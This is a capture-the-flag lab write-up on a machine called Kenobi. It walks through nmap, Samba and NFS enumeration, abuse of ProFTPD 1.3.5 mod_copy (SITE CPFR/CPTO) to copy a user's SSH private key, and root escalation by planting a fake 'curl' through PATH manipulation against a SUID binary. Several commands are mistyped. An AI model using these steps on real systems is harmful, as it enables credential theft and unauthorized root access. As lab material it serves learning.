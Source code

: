 #CTF
This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

## Recon

As always I start with [[Nmap]] to scan the machine and here are the results:

```
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (EdDSA)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disalloId entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      35329/tcp  mountd
|   100005  1,2,3      37948/udp  mountd
|   100021  1,3,4      34655/tcp  nlockmgr
|   100021  1,3,4      35869/udp  nlockmgr
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
MAC Address: 02:A4:95:01:54:C9 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So lots of information. Did some research online about 111,139,445,2049 because I haven't seen them before and here is what I found out.

- port 111 : tcp,udp - SunRPC 
	Provides information betIen Unix based systems. Port is often probed, it can be used to fingerprint the Nix OS, and to obtain information about available services. Port used with NFS, NIS, or any rpc-based service.
- port 139 : tcp,udp -netbios-ss 
	NetBIOS is a protocol used for File and Print Sharing under all current versions of Windows. While this in itself is not a problem, the way that the protocol is implemented can be. There are a number of vulnerabilities associated with leaving this port open.
- port 445 : tcp - microsoft-ds
	TCP port 445 is used for direct TCP/IP MS Networking access without the need for a NetBIOS layer. The SMB (Server Message Block) protocol is used for file sharing in Windows NT/2K/XP and later. In Windows NT it ran on top of NetBT (NetBIOS over TCP/IP, ports 137, 139 and 138/udp). In Windows 2K/XP and later, Microsoft added the possibility to run SMB directly over TCP/IP, without the extra NetBT layer, for this they use TCP port 445.
- port 2049 : tcp,udp,sctp NFS
	Network File System (NFS) - remote filesystem access [[RFC 1813](http://tools.ietf.org/html/rfc1813 "RFC 1813")] [[RFC5665](http://tools.ietf.org/html/rfc5665 "RFC5665")]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.


## Enumerating Samba for shares

I are going to focus on Samba on this machine.

*Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

*Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they Ire part of the same network.*

The room gives us the command to enumarate the shares of the samba share with :
`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.16.149`
and here are the results:
```
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:A4:95:01:54:C9 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.16.149\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.16.149\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.16.149\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

So I see three shares, one called anonymous which sounds promising.
Lets try to connect with:
`anosmbclient //[ip]/anonymous`
Pressing enter on the password and I am in!
I can't do much on this terminal (can't cat the file) and so I am going to download this share on our local machine with:
`smbclient //[ip]/anonymous`
And now I can cat the log.txt file that I got from the share.


Next I am going to target that 111 port.

*Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. *

I enumerate it like so:
`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.16.149`
and I get:
```
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836524.0  6877104.0  22%   16.0T        32000
MAC Address: 02:A4:95:01:54:C9 (Unknown)
```

## Gain initial access with ProFtpd

*ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.*

I am going to use [[Introductory Networking#Netcat]] to connect to the port 21 with:
`nc [ip] [port /21]`
I get the version and now I search for vulnerabilites for this version with:
`searchploit ProFTPd 1.3.5`
And I find 5 of them.

*You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). 
The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
I know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

I am going to use those 2 commands to steal the id_rsa. So inside the opened connection I 
`SITE CPFR /home/kenobi/.ssh/id_rsa` and
`SITE CPTO /var/tmp/id_rsa`  

Now I have to mount the /var folder and I do it like so:
```
mkdir /mnt/kenobiNFS  
mount [ip]:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

I now have a network mount on our deployed machine! I can go to /var/tmp and get the private key then login to Kenobi's account.
To connect to the machine I :
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa 
ssh -i id_rsa kenobi@[ip]
```

And I am in and get a flag!
## Privilege Escalation with Path Variable Manipulation

![](https://i.imgur.com/LN2uOCJ.png)

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), hoIver other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: 
`find / -perm -u=s -type f 2>/dev/null`

So /usr/bin/menu looks promising. I run it and I got :
```
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

Next I :

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

I copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as Ill as this file being run as root it runs our shell as root!
And I get our final flag!
